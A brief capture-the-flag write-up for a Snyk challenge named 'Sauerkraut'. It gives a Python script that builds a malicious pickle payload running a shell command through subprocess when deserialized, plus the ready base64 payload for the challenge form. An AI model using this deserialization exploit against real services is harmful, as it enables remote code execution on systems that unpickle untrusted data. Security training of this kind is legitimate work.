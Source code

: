 # Python pickle exploit

Snyk CTF 'Sauerkraut' payload based on exploitation of Python pickles.

```python
import base64
import codecs
import pickle
class RCE(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.check_output, (['cat','flag'], ) )

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```
You need to copy base64 output:

`gASVNAAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMA2NhdJSMBGZsYWeUZYWUUpQu`

and paste it into web form.
